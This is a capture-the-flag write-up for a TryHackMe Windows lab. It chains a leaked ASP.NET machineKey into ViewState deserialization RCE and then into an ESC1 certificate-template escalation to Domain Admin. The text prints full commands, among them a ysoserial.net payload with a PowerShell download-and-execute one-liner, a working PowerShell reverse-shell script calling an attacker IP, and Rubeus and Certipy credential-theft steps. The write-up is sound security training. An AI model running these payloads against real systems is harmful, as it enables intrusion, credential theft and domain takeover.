#writeup #tryhackme #windows

# README

> **Platform:** TryHackMe
> **Difficulty:** Hard
> **OS:** Windows
> **Target IP:** `10.113.179.155`
> **Date:** 2026-11-25

## Introduction

Rubberstamp is a hard-difficulty Windows/Active Directory box built around an "approvals automation" web application. The interesting part of this box is the chain it forces you through: a forgotten debug switch in a legacy ASP.NET handler leaks the site's machine keys, which lets you forge a `__VIEWSTATE` payload for remote code execution as a low-privileged service account. From there, Active Directory Certificate Services (AD CS) is misconfigured with a certificate template that allows any domain user to request a certificate with an arbitrary UPN — a classic ESC1-style escalation that leads straight to Domain Admin. It's a great example of how a single low-severity-looking web bug (verbose error messages) can cascade into a full domain compromise.

### Table of Contents
- [Scanning](#scanning)
- [Enumeration](#enumeration)
- [Gaining a Foothold](#gaining-a-foothold)
- [Privilege Escalation](#privilege-escalation)
- [Conclusion](#conclusion)

---

## Scanning

I started by scanning the target, using `rustscan` for a fast initial port sweep and `nmap` for deeper service/version enumeration.

```bash
rustscan -a 10.113.179.155 > rust.scan
```

```text
cat rust.scan
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Port scanning: Making networking exciting since... whenever.

Open 10.113.179.155:53
Open 10.113.179.155:80
Open 10.113.179.155:88
Open 10.113.179.155:135
Open 10.113.179.155:139
Open 10.113.179.155:389
Open 10.113.179.155:445
Open 10.113.179.155:464
Open 10.113.179.155:593
Open 10.113.179.155:636
Open 10.113.179.155:3269
Open 10.113.179.155:3268
Open 10.113.179.155:3389
Open 10.113.179.155:5985
Open 10.113.179.155:9389
Open 10.113.179.155:47001
Open 10.113.179.155:49664-49758 (dynamic RPC ports)
```

Followed by a full nmap scan with service/version detection and default scripts:

```text
cat nmap2.scan
Nmap scan report for rubberstamp.local (10.113.179.155)
Host is up (0.061s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Home - Rubberstamp
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-11-25 19:26:08Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: rubberstamp.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Global Catalog)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Global Catalog, SSL)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: RUBBERSTAMP
|   NetBIOS_Domain_Name: RUBBERSTAMP
|   NetBIOS_Computer_Name: SRV01
|   DNS_Domain_Name: rubberstamp.local
|   DNS_Computer_Name: SRV01.rubberstamp.local
|   DNS_Tree_Name: rubberstamp.local
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (WinRM)

Service Info: Host: SRV01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Since the nmap scan revealed the domain name `rubberstamp.local` and the hostname `SRV01.rubberstamp.local`, I added both to my `/etc/hosts` file right away, since AD environments are very picky about name resolution (Kerberos in particular):

```bash
echo "10.113.179.155 rubberstamp.local SRV01.rubberstamp.local" | sudo tee -a /etc/hosts
```

**Open ports:**

| Port  | Service          | Version / Notes                                   |
|-------|------------------|----------------------------------------------------|
| 53    | domain           | Simple DNS Plus                                     |
| 80    | http             | Microsoft IIS httpd 10.0                            |
| 88    | kerberos-sec     | Microsoft Windows Kerberos                          |
| 135   | msrpc            | Microsoft Windows RPC                               |
| 139   | netbios-ssn      | Microsoft Windows netbios-ssn                       |
| 389   | ldap             | Active Directory LDAP (`rubberstamp.local`)         |
| 445   | microsoft-ds     | SMB                                                  |
| 464   | kpasswd5         | Kerberos password change                            |
| 593   | ncacn_http       | RPC over HTTP                                       |
| 636   | ldaps            | Active Directory LDAP over SSL                      |
| 3268  | globalcatLDAP    | AD Global Catalog                                   |
| 3269  | globalcatLDAPssl | AD Global Catalog over SSL                          |
| 3389  | ms-wbt-server    | RDP (Terminal Services)                             |
| 5985  | wsman            | WinRM                                               |
| 9389  | adws             | Active Directory Web Services                       |
| 47001 | winrm            | WinRM (HTTP listener)                               |
| 49664–49758 | msrpc      | Dynamic/ephemeral RPC ports                         |

This is a textbook Active Directory Domain Controller port profile (Kerberos, LDAP/LDAPS, Global Catalog, ADWS), combined with a public-facing IIS web app on port 80 — so the web app was the obvious entry point to enumerate first.

---

## Enumeration

Before diving in, I kept the room's own hints in mind:

```text
During a routine security assessment, analysts discovered an exposed approvals-automation
startup still running its original production stack, exposed to the internet. Rubberstamp
was built to route internal approval requests automatically, but critical security
misconfigurations were never addressed before go-live.

Your task is to enumerate the service, identify any weaknesses, and escalate all the way
to Domain Admin.
```

And:

```text
From IIS to Domain Admin. Chain a seemingly minor web flaw into a full network takeover.
```

IIS (Internet Information Services) is Microsoft's web server platform for Windows, commonly used to host ASP.NET applications. Since that's the only exposed entry point, I started there.

### Web Enumeration

Visiting the web app didn't reveal much on the surface — it's a simple static-looking landing page.



I ran `gobuster` for directory/file fuzzing, including common ASP.NET backup/config extensions, since legacy ASP.NET apps often leave `.bak` files lying around from careless deployments:

```bash
gobuster dir -u http://rubberstamp.local/ \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x .aspx,.bak,.acax,.asax,.aspx.bak,.acax.bak,.asax.bak \
  -b 302,404
```

After letting it run for a while, I found something interesting:





`global.asax` is an application-level event handler file in ASP.NET — it defines code that runs in response to application-wide events (startup, session start, unhandled errors, etc.). Finding a backup copy of it (`global.asax.bak`) handed me the application's source code for these handlers.

##### Reading through it, piece by piece

**`Application_Start`** — standard boilerplate. It registers MVC areas and routes when the application starts. Nothing security-relevant here.

**`Application_Error`** — this is where the vulnerability lives. It's a global handler that fires whenever an unhandled exception occurs anywhere in the application. Walking through its logic:

```csharp
if (!context.Request.Path.StartsWith("/legacy/", ...)) return;
```
It only does anything special for requests under the `/legacy/` path.

```csharp
if (context.Request.QueryString["debug"] != "true") return;
```
And only if the request also includes `?debug=true` in the query string. This has all the hallmarks of a developer debug switch that was meant to be temporary ("scheduled for decommission" — and, as usual, never actually decommissioned).

```csharp
var mk = (MachineKeySection)ConfigurationManager.GetSection("system.web/machineKey");

context.Response.Write("<pre>" + ex.ToString() +
    "\n\nvalidationKey=" + mk.ValidationKey +
    "\ndecryptionKey=" + mk.DecryptionKey +
    "\nvalidation=" + mk.Validation + "</pre>");
```
If both conditions are satisfied, the handler dumps the full exception stack trace **and**, critically, the site's ASP.NET `machineKey` material — the `validationKey`, `decryptionKey`, and the validation algorithm (e.g., SHA1/AES). The `machineKey` is what ASP.NET uses to sign and encrypt `__VIEWSTATE` data, so leaking it is effectively handing over the keys to forge arbitrary, "trusted" serialized payloads.

To trigger this, I used the `/legacy/RequestStatus.aspx` endpoint referenced in the homepage's source code:



It worked — and the error message `Value cannot be null` told me there was a required parameter I hadn't supplied yet, alongside the leaked keys. Finding that missing parameter would matter later.

To find it, I fuzzed for parameter names with `wfuzz`:

```bash
wfuzz -c -z file,/usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt \
  --hc 302 --hw 92 \
  "http://rubberstamp.local/legacy/RequestStatus.aspx?FUZZ=1&debug=true"
```



The very first promising hit was the parameter `id`:



Viewing the page source of the now-working "Request Status" page revealed something useful — a hidden `__VIEWSTATE` field:



### ViewState Deserialization

`__VIEWSTATE` is an ASP.NET WebForms mechanism for persisting page/control state across postbacks. It's base64-encoded and, when `machineKey` validation/encryption is enabled correctly, should be tamper-proof. The problem here is that I now **have** the `machineKey` — which means I can generate my own, validly-signed `__VIEWSTATE` blob containing a malicious deserialization gadget chain, and the server will trust it completely.

If you want to read more on this class of vulnerability before continuing, this is a solid reference: [Exploiting ViewState Deserialization using Blacklist3r and ysoserial.net](https://www.claranet.com/us/blog/2019-06-13-exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserialnet).

You'll need `ysoserial.net` to build the payload: [ysoserial.net on GitHub](https://github.com/pwntester/ysoserial.net).

Values leaked from the debug endpoint:

```text
validationKey = D7D2FA8B5C1E4A9F3B6C8D0E2F4A6B8C1D3E5F7A9B1C3D5E7F9A1B3C5D7E9F1A
decryptionKey = A1B2C3D4E5F6A7B8C9D0E1F2A3B4C5D6E7F8A9B0C1D2E3F4
validation    = SHA1
```

---

## Gaining a Foothold

With the machine keys in hand, I built a `__VIEWSTATE` payload using the `TextFormattingRunProperties` gadget chain (a common, reliable ysoserial.net gadget for ASP.NET ViewState RCE), pointing it at a PowerShell one-liner that downloads and executes a reverse shell script:

```bash
cd ~/tryhackme/Rubber_Stamp/ysoserial-release/Release

WINEARCH=win32 WINEPREFIX=~/.wine32 wine ysoserial.exe \
  -p ViewState \
  -g TextFormattingRunProperties \
  -c "powershell -c IEX(new-object net.webclient).downloadstring('http://YOUR-IP:5555/reverse.ps1')" \
  --path="/legacy/RequestStatus.aspx" \
  --apppath="/" \
  --validationalg="SHA1" \
  --validationkey="D7D2FA8B5C1E4A9F3B6C8D0E2F4A6B8C1D3E5F7A9B1C3D5E7F9A1B3C5D7E9F1A" \
  --decryptionalg="AES" \
  --decryptionkey="A1B2C3D4E5F6A7B8C9D0E1F2A3B4C5D6E7F8A9B0C1D2E3F4" \
  2>/dev/null | tail -1 > /tmp/revshell_payload.txt
```

Next, I created the `reverse.ps1` payload that the target will fetch and execute, and served it from a simple Python HTTP server:

```bash
cat > /tmp/reverse.ps1 << 'EOF'
$client = New-Object System.Net.Sockets.TCPClient("192.168.135.22",4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
    $sendback = (iex $data 2>&1 | Out-String)
    $sendback2 = $sendback + "PS " + (pwd).Path + "> "
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
}
$client.Close()
EOF

cd /tmp
python3 -m http.server 5555
```

Then I started a Netcat listener to catch the callback:

```bash
nc -lvnp 4444
```

And finally, sent the forged `__VIEWSTATE` payload to the vulnerable endpoint:

```bash
curl -s -m 15 -X POST "http://rubberstamp.local/legacy/RequestStatus.aspx?id=1&debug=true" \
  --data "__VIEWSTATE=$(cat /tmp/revshell_payload.txt)" \
  --data "__VIEWSTATEGENERATOR=0CA456E0"
```



This gave me a shell as `iisweb`, the service account running the IIS application pool.

**User flag:**

```powershell
type C:\Users\Public\user.txt
```



---

## Privilege Escalation

Since this is an Active Directory environment, I ran through the usual AD enumeration checklist (shares, ACLs, delegation, GPOs, etc.), but the thing that stood out — and the one that actually mattered — was Active Directory Certificate Services (AD CS), checked via `certutil`.

### Enumeration

Running the following command lists the certificate templates available for enrollment on the Certificate Authority:

```powershell
certutil -ADCA
```

```text
CAIsValid: 1
  cn = rubberstamp-SRV01-CA
  displayName = rubberstamp-SRV01-CA
  dNSHostName = SRV01.rubberstamp.local
  certificateTemplates =
    0: PrivClientAuth   <-- interesting
    1: DirectoryEmailReplication
    2: DomainControllerAuthentication
    3: KerberosAuthentication
    4: EFSRecovery
    5: EFS
    6: DomainController
    7: WebServer
    8: Machine
    9: User
    10: SubCA
    11: Administrator
  flags = a (10)
    CA_FLAG_SUPPORTS_NT_AUTHENTICATION -- 2
    CA_FLAG_CA_SERVERTYPE_ADVANCED -- 8

    Allow Enroll        NT AUTHORITY\Authenticated Users   <-- here
    Allow Full Control   RUBBERSTAMP\Enterprise Admins
    Allow Full Control   RUBBERSTAMP\SRV01$
    Allow Read           NT AUTHORITY\Authenticated Users
    Allow Full Control   RUBBERSTAMP\Domain Admins

CertUtil: -ADCA command completed successfully.
```

The `PrivClientAuth` template immediately stood out, so I inspected it in detail:

```powershell
certutil -v -Template PrivClientAuth
```



```text
Template[22]:
  TemplatePropCommonName = PrivClientAuth
  TemplatePropEKUs =
    1.3.6.1.5.5.7.3.2 Client Authentication
    1.3.6.1.5.5.7.3.4 Secure Email
    1.3.6.1.4.1.311.10.3.4 Encrypting File System

  TemplatePropSubjectNameFlags = 1
    CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT -- 1     <-- the dangerous bit

  TemplatePropPrivateKeyFlags = 6060110 (101056784)
    CTPRIVATEKEY_FLAG_EXPORTABLE_KEY -- 10 (16)

    Allow Enroll         RUBBERSTAMP\Domain Admins
    Allow Enroll         RUBBERSTAMP\Domain Users          <-- any domain user can enroll
    Allow Enroll         RUBBERSTAMP\Enterprise Admins
    Allow Full Control   RUBBERSTAMP\Domain Admins
    Allow Full Control   RUBBERSTAMP\Enterprise Admins
    Allow Full Control   RUBBERSTAMP\Administrator
    Allow Read           NT AUTHORITY\Authenticated Users
```

This is the classic **ESC1** AD CS misconfiguration:

- The template grants `Client Authentication` EKU, which means a certificate issued from it can be used to authenticate as a user via Kerberos (PKINIT).
- `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` means the **requester** gets to specify the Subject Alternative Name (SAN) on the certificate — including an arbitrary User Principal Name (UPN).
- `Domain Users` has `Enroll` rights on the template.

Put together: any authenticated domain user can request a certificate from this template while claiming to be `Administrator@rubberstamp.local` in the SAN, and the CA will happily sign it. That certificate can then be used to authenticate as the Domain Administrator.

### Exploitation

Since I already had command execution on the box as `iisweb`, I leveraged Kerberos to extract a usable ticket rather than dealing with NTLM. First, I pulled down [Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe) to the attacker machine and transferred it to the target:



On the target, I used Rubeus to request and dump the current user's TGT (ticket-granting ticket) via Kerberos ticket delegation:

```powershell
.\Rubeus.exe tgtdeleg /nowrap
```



I saved the base64 ticket on the attacker machine and converted it from `.kirbi` (Windows/Kerberos format) to `.ccache` (Linux/Impacket format):

```bash
echo "doIFQTCCBT2gAw......=" | base64 -d > svc-iisweb.kirbi

impacket-ticketConverter svc-iisweb.kirbi svc-iisweb.ccache
```

```text
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] converting kirbi to ccache...
[+] done
```

Then I exported it as my active Kerberos credential cache:

```bash
export KRB5CCNAME=svc-iisweb.ccache
```

And added the Domain Controller / CA hostname to `/etc/hosts` so Kerberos name resolution would work correctly:

```bash
echo "10.113.177.40 srv01.rubberstamp.local" >> /etc/hosts
```

With Kerberos authentication in place, I used [Certipy](https://github.com/ly4k/Certipy) to abuse the `PrivClientAuth` template and request a certificate for the `Administrator` account:

```bash
certipy-ad req -u 'svc-iisweb@rubberstamp.local' -k \
  -target srv01.rubberstamp.local \
  -dc-ip 10.113.177.40 \
  -dc-host srv01.rubberstamp.local \
  -ca rubberstamp-SRV01-CA \
  -template PrivClientAuth \
  -upn Administrator@rubberstamp.local
```

```text
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 6
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@rubberstamp.local'
[*] Certificate has no object SID
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

Finally, I used the resulting certificate to authenticate via Kerberos PKINIT, which also recovers the account's NT hash:

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.113.177.40
```

```text
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@rubberstamp.local'
[*] Using principal: 'administrator@rubberstamp.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@rubberstamp.local': <NT_HASH>
```



With the Administrator's NT hash (or the `.ccache` ticket), I authenticated to the Domain Controller as Domain Admin and grabbed the final flag.

**Root flag:**

```powershell
type C:\Users\Administrator\Desktop\root.txt
```



---

## Conclusion

What I learned/practiced in this room:

- **Verbose error handlers are a real attack surface.** A debug flag left in `Application_Error` leaked the site's ASP.NET `machineKey`, which completely breaks the trust model `__VIEWSTATE` relies on.
- **Leaked machine keys mean instant RCE on classic ASP.NET WebForms apps.** With `validationKey`/`decryptionKey` in hand, `ysoserial.net` can forge a signed, "valid" ViewState payload containing a deserialization gadget chain for remote code execution.
- **AD CS misconfigurations (ESC1) are a direct and extremely common path to Domain Admin.** A template that lets low-privileged users both enroll and supply their own Subject Alternative Name — combined with the Client Authentication EKU — lets any domain user mint a certificate for `Administrator` and authenticate as them via Kerberos PKINIT.
- **Kerberos ticket abuse (Rubeus `tgtdeleg`) is a clean way to pivot from shell access to usable Kerberos credentials** without ever touching plaintext passwords.
- Overall, this box is a good reminder that a single overlooked debug switch in legacy code can cascade, through a chain of individually "minor" misconfigurations, into full domain compromise.

Thank you for reading!
